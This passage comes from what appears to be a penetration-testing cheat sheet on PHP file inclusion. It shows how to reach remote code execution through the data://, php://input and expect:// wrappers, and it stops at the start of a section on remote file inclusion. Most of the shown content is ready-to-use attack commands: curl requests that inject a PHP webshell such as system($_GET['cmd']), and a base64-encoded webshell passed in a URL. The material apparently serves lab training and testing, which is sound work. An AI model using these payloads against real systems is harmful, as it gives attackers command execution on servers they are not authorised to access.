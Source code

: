 ```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

**Remote Code Execution**

**Without Encoding:**

```
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

**With Encoding**:

With data wrapper can include external data. Can pass base64 with `text/plain;base64`

1. Base64 encode webshell. `echo '<?php system($_GET["cmd"]); ?>' | base64`
2. Then pass data wrapper with the base64 `data://text/plain;base64,` Like so

```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

#### Input

The difference between input and the data wrapper is that we pass our input to the input wrapper as a POST request's data. Input wrapper also depends on the allow\_url\_include setting, as mentioned earlier.

To repeat our earlier attack but with the input wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

#### Expect

Allows us to directly run commands through URL streams. Need to check for expect as it is an external wrapper.&#x20;

```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```

&#x20;Refer [#data](path-traversal-and-file-inclusion.md#data "mention") for where to check.&#x20;

To run commands:&#x20;

```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://<command>"
```

## Remote File Inclusion (RFI)

Vulnerable:
